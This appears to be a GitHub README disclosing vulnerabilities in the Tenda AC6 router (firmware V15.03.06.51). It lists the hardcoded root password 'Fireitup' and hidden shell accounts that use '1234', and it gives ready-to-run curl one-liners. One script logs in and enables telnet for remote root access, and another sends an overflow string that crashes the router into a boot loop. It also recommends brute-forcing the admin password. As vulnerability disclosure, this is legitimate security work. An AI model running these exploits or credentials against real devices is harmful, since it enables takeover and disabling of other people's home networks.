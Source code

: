<table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_174832.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20200927_175341.jpg"> 
		<img height=150px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/20201024_163850.jpg">
<tr>
	<td colspan=1> <b>Router: 
	<td colspan=1>Tenda AC1200 (Model AC6) Smart Dual Band WiFi Router
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>V15.03.06.51_multi 
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>Linux linux-e06efcf50f50 3.10.90 #5 Thu Oct 8 17:04:23 CST 2020 mips GNU/Linux
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.4.7
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.19.2
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1>[, [[, adduser, arp, arping, ash, awk, brctl, cat, chmod, clear, cp, cttyhack, cut, date, deluser, depmod, echo,
        egrep, eject, env, expr, false, fdisk, fgrep, free, grep, halt, ifconfig, init, insmod, kill, killall, killall5,
        linuxrc, ln, login, ls, lsmod, mdev, mkdir, modinfo, modprobe, more, mount, mountpoint, mv, netstat, nslookup,
        passwd, ping, ping6, poweroff, printf, ps, pstree, pwd, reboot, reset, rm, rmdir, rmmod, route, runlevel, sed, sh,
        sleep, softlimit, split, sulogin, tar, telnet, telnetd, test, tftp, top, touch, traceroute, traceroute6, true, tty,
        umount, uname, unzip, uptime, usleep, vconfig, vi, wget, yes
<tr>
	<td colspan=1><b>Sys Type: 
	<td colspan=1>RTL8197F
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>25Q64JVSIQ (<a href="https://github.com/cecada/Tenda-AC6-Root-Acces/blob/main/docs/w25q64jv%20spi%20revc%2006032016%20kms.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1>192.168.0.1 (default) or 192.168.1.1
</table>

Found issues: 

* CVE-2020–10988 overview: root password is Fireitup, and static. This vulnerability persists to this model and version.
* HTTP admin access has a static username (admin)
* Admin password is only secured with a simple MD5 hash
* Default speed test settings located on mtdbblock5 point to urls which download malware:
  * speedtest.addr.list7=sh.vnet.cn/downloads/elive1.16.exe?0.4812286039814353 ([Hybrid Report](https://www.hybrid-analysis.com/sample/4c15a77c71218d7feef52d9c5504c0d32d8e580819186a4bb708d3c120e7b15e))
  * speedtest.addr.list6=viewer.d.cnki.net/CNKI%20E-Learning%202.4.1-20140714.exe ([Hybrid Report](https://www.hybrid-analysis.com/sample/bfa165373e5f5ed6ba4e73440bc9bb94d6089d8edb784db5a4a011d8ee87f790/5f8440c84e139b56f00f0728))
* (CVE-2020-28093) Default system accounts (admin, support, user, and nobody) are hidden from the HTTP admin console, have shell access, and all have 1234 as the password.
* It is possible to form an HTTP post will result in a denial of service by causing the router to crash and enter a boot loop.

<h2>Logging in / Getting Admin Password</h2>

Router admin is done via a web portal which is defaulted to 192.168.0.1. The only credentials which is asked for is the password. The username appears to be static admin. Prior to the HTTP POST request the client hashes the password using MD5. A sample curl would look like:

```
curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest'
-H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4'
--url 'http://192.168.0.1/login/Auth'
```
2a3ffeeda250174eaeba880553e0dfd4 = mathafter067

This results in 301 redirect to main.html, and of critical importance, a cookie is set with the hash + a pseudo-random 6 byte string. For example: 2a3ffeeda250174eaeba880553e0dfd4<b>piacvb</b> With this "token" we can do a lot of harm. 

Given the simplicity of authentication, the acceptance, and auto-population of default password, creating a brute-force script to find the password, and thus the MD5 hash is trivial.

Why is this a problem? I mean, if you have admin creds shouldn't you be able to turn on telnet? Perhaps. However, on this model the admin user interface does not have an interface for this. I have read some other model do. This seems to be an API access that wasn't intended for this model.

<h2>Turning on Telnet (CVE: CVE-2020-28093)</h2>
With this router, telnet is not on by default. I discovered a method, once you are connected and brute-forced the admin password you can turn it on without having to physically access the hardware. 

```
ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' 
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' --data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' 
--url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk -X 'GET' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' 
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' 
-H "Cookie: password=$ahash" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' 
-H 'Connection: close' --url 'http://192.168.0.1/goform/telnet'; echo -e "\n\nSuccess!"; telnet 192.168.0.1; fi
```
Because I am lazy, I created a "one-liner" which will:
* Grab the "token"
* Check for success
* Turn on telnet
* Launch telnet

Telnet will ask for the username/password which is root/Fireitup
Device R00ted with no access to the hardware needed

<h2>Denial of Service: Crash it (CVE-2020-28095)</h2>
Once you have brute forced the admin password it is possible to send an HTTP POST request which will trigger a crash, and result in a boot-loop.

```
overflow=$(perl -e 'print "A" x 1024');ahash=$(curl -isk -X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' 
-H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.0.1/login.html' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' 
--data-binary 'username=admin&password=2a3ffeeda250174eaeba880553e0dfd4' --url 'http://192.168.0.1/login/Auth'| grep Set-Cookie | cut -d\= -f2 | cut -d\; -f1); 
if [ -z "$ahash" ]; then echo -e "\n\nCouldn't get token? If you were logged in you are not logged out; try again. Else, check IP address."; else curl -isk 
-X 'POST' -H 'Host: 192.168.0.1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' 
-H 'Referer: http://192.168.0.1/wireless_ssid.html?random=0.54930120660236&' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' 
-H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: close' -H “Cookie: password=$ahash” -H 'Sec-GPC: 1' -b "password=$ahash" 
--data-binary "wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FC6EE0&ssid_5g=Tenda&hideSsid=0&hideSsid_5g=0&wrlPwd=$overflow&wrlPwd_5g=mathafter067" 
--url 'http://192.168.0.1/goform/WifiBasicSet';fi
```
Like the telnet vuln, I scripted this out. 
* Generate an overflow string
* Get login "token"
* Check if the login was a success or not
* If it was, post overflow string as a setting change to the wifi password

The router will crash, and only a physical hard factory reset will restore it. 

<table>
<tr>
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201441.png"> 
	<td colspan=2 align=center>
		<center>
		<img height=400px align=center src="https://raw.githubusercontent.com/cecada/Tenda-AC6-Root-Acces/main/images/Screenshot_20201024_201653.png"> 
</table>
